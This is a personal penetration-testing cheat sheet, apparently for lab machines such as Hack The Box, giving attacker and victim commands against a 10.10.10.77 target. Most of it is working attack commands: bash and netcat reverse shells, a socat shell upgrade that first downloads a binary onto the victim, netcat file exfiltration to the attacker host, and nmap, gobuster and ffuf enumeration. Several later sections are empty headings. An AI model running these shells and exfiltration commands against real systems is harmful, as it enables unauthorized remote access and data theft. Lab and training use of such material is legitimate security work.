# Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://i.pinimg.com/originals/2a/db/1e/2adb1e4dbe67ce0ff39c4b080f015aa3.jpg)

## Useful Commands

### Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

### Reverse shells

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

### If Web Server

* #### GoBuster

Full directory busting with extensions

```
gobuster dir -e -u http://academy.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,txt,htm,html,phtml,js,zip,rar,tar -s 200,302
```

* #### FuFF

Full directory busting with extensions

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://academy.htb/FUZZ -e php,txt,htm,html,phtml,js,zip,rar,tar -mc 200,302
```

VHOST Discovery

```
ffuf -w subdomains-top1million-110000.txt -u https://10.10.10.77/ -H "Host:FUZZ.10.10.10.77"
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
